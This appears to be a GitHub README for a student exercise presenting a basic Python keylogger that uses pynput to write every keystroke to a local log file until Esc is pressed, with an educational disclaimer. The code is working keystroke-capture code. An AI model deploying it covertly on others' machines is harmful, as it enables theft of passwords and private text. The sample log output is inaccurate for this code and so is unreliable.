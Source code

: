 # Prodigy_task4
Simple Keylogger Program
Disclaimer
This project is for educational purposes only. Keyloggers can be used for malicious purposes, and it is essential to consider the ethical implications and obtain necessary permissions before using such a program.

Project Overview
This is a basic keylogger program that records and logs keystrokes. The program focuses on logging the keys pressed and saving them to a file.

Code
keylogger.py
python

Verify

Open In Editor
Edit
Copy code
import pynput
from pynput.keyboard import Key, Listener

def on_press(key):
    """Record key press"""
    with open("log.txt", "a") as f:
        f.write(str(key) + "\n")

def on_release(key):
    """Stop listener when Esc key is pressed"""
    if key == Key.esc:
        # Stop listener
        return False

# Create listener
listener = Listener(on_press=on_press, on_release=on_release)
listener.start()
listener.join()
Requirements
Python 3.x
pynput library (pip install pynput)
Usage
Run the program using python keylogger.py.
The program will start recording keystrokes and saving them to a file named log.txt.
Press the Esc key to stop the listener.
Example Log Output

Verify

Open In Editor
Edit
Copy code
Key.char('a')
Key.char('b')
Key.char('c')
Key.space
Key.char('d')
Key.enter
Note: This is a basic example, and you may want to add additional features, such as filtering out certain keys or adding a timestamp to each log entry
